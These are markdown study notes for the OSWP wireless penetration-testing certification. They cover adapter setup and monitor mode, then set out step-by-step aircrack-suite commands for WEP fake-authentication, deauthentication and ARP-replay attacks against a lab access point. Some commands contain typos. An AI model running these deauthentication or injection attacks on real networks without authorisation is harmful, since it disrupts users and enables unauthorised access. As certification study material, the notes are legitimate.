 # OSWP notes

## Setting up

### Wireless ALFA AWUS036NH

[https://medium.com/@adam.toscher/configure-your-new-wireless-ac-1fb65c6ada57](https://medium.com/@adam.toscher/configure-your-new-wireless-ac-1fb65c6ada57)

After plugin usb wireless adapter\) ALFA AWUS036NH

```bash
# list usb device check that device is detected 
lsusb
# Bus 002 Device 028: ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter

# install drivers
apt-get install realtek-rtl88xxau-dkms

# Unload current driver
rmmod r8187

# load new driver
modprobe r8187

# verifiy that driver is loaded correctly
iwconfig
```

### Basic iw usage

```bash
# wlan1     IEEE 802.11  ESSID:off/any  
#          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
#          Retry short  long limit:2   RTS thr:off   Fragment thr:off
#          Encryption key:off
#          Power Management:off

# detail informtion of wireless interface
iw list

# list of SSID in range
iw dev wlan1 scan|grep SSID
#wlan1     14 channels in total; available frequencies :
#          Channel 01 : 2.412 GHz
#          Channel 02 : 2.417 GHz
#          Channel 03 : 2.422 GHz
#          Channel 04 : 2.427 GHz
#          Channel 05 : 2.432 GHz


# list of SSID frequency
iwlist wlan1 frequency
#wlan1     14 channels in total; available frequencies :
#          Channel 01 : 2.412 GHz
#          Channel 02 : 2.417 GHz
#          Channel 03 : 2.422 GHz
#          Channel 04 : 2.427 GHz
#          Channel 05 : 2.432 GHz

# list what channel AP points are transmitting on - useful for filtering background noise used later
iw dev wlan1 scan | egrep "DS\ Parameter\ set|SSID"

#Setting wireless in monitor mode
iw dev wlan1 interface add mon0 type monitor
ifconfig mon0 up
iwconfig
# mon0     IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
#          Retry short  long limit:2   RTS thr:off   Fragment thr:off
#          Power Management:off
tcp -i mon0 -s 65000 -p
#delete interface
iw dev mon0 interface del
iwconfig
```

### IEEE wireless device

```bash
#to find out currently loaded wlan
lspci
#0c:00.0 Network controller: Intel Corporation PRO/Wireless 
lspci -vv -s 0c:00.0
#        Kernel driver in use: r8169
#        Kernel modules: r8169

# get a list of ESSID
iwlist wlan0 scanning | egrep "ESSID|Channel"

#monitor on channel 3
iwconfig wlan0 mode monitor channel 3
iwconfig wlan0 mode managed
```

## Airmon-ng

```bash
# check process that may interfere with airmon-ng
airmon-ng check 

# kill all interfering processes
airmon-ng check kill

# monitor mode
airmon-ng start wlan0

airmon-ng stop mon0

# set airmon-ng on listening mode on channel 3
airmon-ng start wlan0 3

iwlist mon0 channel
```

## Airodump-ng

```bash
# start wlan0 in monitor mode first
airmon-ng start wlan0

# start monitoring
airodump-ng mon0
#CH 10 ][ Elapsed: 0 s ][ 2020-11-11 15:40                                                                        
#                                                                                    #                              
# BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                  
#                                                                                                                  
# CC:22:3d:AF:AA:67  -55        1        1    0   9  270   WPA2 CCMP   PSK  Mkpg                                   



#sniffing the traffic
airodump-ng -c <channel> --bssid <bssid>
airodump-ng -c <channel> --essid <SSID name> -w <capture_file_name> mon0
```

## Aireplay-ng

for replay attacks

```bash
# first put wlan0 in monitor mode eg. airmon-ng start wlan0
# injection test 
aireplay-ng -9 mon0

# card to card injection test - tests if we can perform air replay with the card
# aireplay-ng -9 -i <transmitter> <receiving_card>
aireplay-ng -9 -i wlan1 mon0
```

## Cracking WEP

### Fake authentication attack \(MAC association\)

* On router running with WEP encryption and transmit in channel 3
* On Kali

  ```bash
  # start monitor in channel 3
  airmon-ng start wlan0 3

  # save capture file to disk - breaking it later (let it run)
  aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0

  # perform fake authentication attack - on new terminal
  ## Authenticate my mac address to accesspoint (else traffic will be rejected)
  # -1 fake auth attack
  # 0 association timing in seconds
  aireplay-ng -1 0 -e <essid> -a <mac_addr> -h <own-mac> mon0


  # view the packets (total 4 of them in the fake authentication of mac to accesspoint)
  wireshark wepfile1
  ```

  In a possible attack scenario, where an AP has MAC address filtering. We need to first obtain a valid mac address of a client, then wait until the client is no longer on the network and impersonate the client by performing fake authentication attack to associate our attacking machine with the victim access point.

### De-authentication attack

Forcing the client to disconnect

* On Attacker start monitor mode and write to file 

```bash
aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0
```

* connect to victim via vncviewer \(win xp\)
* On client machine \(Client winxp has 1 wired interface, 1 wireless interface\). Ping wireless router indefinitely
* On Kali

```bash
#-0 deauth attack
#1 number of deauth attack packet to send 
aireplay-ng -0 1 -a <AP-mac-addr> -c <Victim-mac-addr> mon0

# On Client machine, observe that continuous ping is broken suddenly (the client has de-authenticated and tries to re-connect. In this process, the process is being monitored by our )

# view the packets (total 4 of them in the fake authentication of mac to accesspoint)
wireshark wepfile1
```

By capturing these arp packets, an attacker is able to use this to generate a large number of weak IV - subsequently able to crack the password

### Arp replay request attack

Listens for an arp request packet, and retransmit it back to the AP. So that AP repeats with new IV - collecting so many that we can finally crack it with aircrack-ng.

* On Attacker start monitor mode and write to file

```bash
aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0

#(bug that need to run this before we perform the arp reply request attack)
aireplay-ng -1 0 -e <essid> -a <mac_addr> -h <own-mac> mon0

# and let it wait how many IV it is captured
aireplay-ng -3 -b <AP-mac-addr> -h <our-mac> mon0


# if this is taking too long to captured more packets
#On new terminal send a deauth attack packet
aireplay-ng -0 1 -a <AP-mac-addr> -c <client-mac-addr> mon0
```

## Aircrack-ng
